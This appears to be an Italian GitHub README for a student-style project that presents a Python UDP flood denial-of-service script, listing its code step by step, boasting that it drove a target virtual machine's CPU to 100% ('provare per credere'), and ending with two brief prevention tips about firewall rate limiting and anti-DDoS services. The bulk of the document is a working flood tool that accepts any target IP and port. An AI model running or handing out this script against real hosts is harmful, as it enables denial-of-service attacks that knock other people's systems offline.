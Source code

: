 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice 📘
1. [Codice](#Codice)
2. [Prestazioni](#Prestazioni)
3. [Prevenzioni](#Prevenzioni)

## **Codice👇🏼**
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot ⬇️ mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale🙃 </p> 

[Immagine](https://github.com/OctavianIT/Octavian_Ceresau_UdpFloodpy/blob/main/Octavian_Ceresau_UdpFlood/UdpFlood/Codice/prest.png)
<p>Provare per credere😅</p>

## **🛡️Prevenzioni🛡️**
#### **Filtraggio traffico UDP**
Configurare il firewall per limitare il traffico UDP su porte non necessarie ed impostare un limitatore di traffico per limitare
la quantità di pacchetti UDP in entrata

#### Protezione Anti-DDoS
Usare servizi esterni di mitigazione come: Cloudflare, AWS Shield o Google Cloud Armor
